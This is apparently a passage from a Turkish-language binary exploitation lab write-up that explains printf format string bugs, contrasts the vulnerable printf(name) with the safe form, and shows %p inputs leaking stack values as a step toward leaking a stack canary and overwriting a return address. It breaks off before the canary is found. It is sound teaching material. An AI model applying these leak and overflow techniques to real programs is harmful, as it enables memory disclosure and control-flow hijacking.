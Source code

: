 ### Formatlanmış karakter dizeleri ve printf
`printf`in nasıl çalıştığını sanırım hepimiz biliyoruz, bir formatlanmış metin veriyoruz, ve argümanlara
göre `printf` bu metini formatlanmış şekilde ekrana basıyor.

Bu bilgi ile bana aşağıdaki kodun ne yapabileceğini söyleyebilir misiniz?
```c
pritnf("%s");
```
Formatlanmış bir metin ama formatlanma için gerekli karakter dizesi argüman olarak verilmemiş. **Bu durumda 
`printf` bir argüman var oldğunu varsayarak  bellekden arbitrary okuma yapacaktır**.

Bu koda bakıcak olursak `name` değişkenin `printf`e hangi argüman olarak verildiğine dikkat eddin:
```c 
printf(name);
```
`name` değişkeni formatlanmış metin olarak `printf`e geçiliyor. Doğru kullanımda olması gereken ise:
```c
printf("%s", name);
```
Bu durumda biz `name` değişkenini kontrol ettiğimizden `printf`in formatlamasını da kontrol edebiliriz.
Bunu az önce öğrendiğimiz bilgi ile birleştirirsek bellekden arbitrary okuma yapacaktır.

Yani programın ilk bölümünde `name` bufferına `printf` ile okuma yapmak için formatlanmış bir metin 
yazarak çerezi leakleyebilir, programın ikinci bölümünde ise answer bufferını taşırarak ve çerezi 
koruyarak dönüş adresinin üzerine yazarak programın akışını yöntebiliriz.

Hadi bunu pratiğe dökelim.

# Exploit 
Önce `printf` ile nasıl okuma yapabileceğimize bir bakalım:
```
root@o101:~/0x3# ./0x3
Hello, what's your name?
%d
4216497? [yes/no]
```
Güzel, bellekden rastgele bir değer okuduk, ancak çerezi seçebilmek adına daha iyi bir 
formatlama kullanabiliriz:
```
root@o101:~/0x3# ./0x3
Hello, what's your name?
%p
0x4056b1? [yes/no]
```
Şimdi biraz daha fazla okuma yapabiliriz, ancak buffer'ın uzunluğunun 40 olduğunu unutmayalım,
çok fazla karakter girersek istenmeyen bir overflowa sebep olabiliriz. 
```
root@o101:~/0x3# ./0x3
Hello, what's your name?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x4056b1(nil)0x7ffff7fb18e00x4056d9(nil)(nil)(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250xaa5096d3722361000x10x7ffff7dfecd00x7fffffffebc00x4011660x1004000400x7fffffffebd80x7fffffffebd8? [yes/no]
```
Yazabildiğimiz en uzun girdi ile aldığımız çıktı bu. İyi de burda çerezi nasıl bulacağız? Veya 
çerezi leaklediğimizi nerden bilebiliriz?
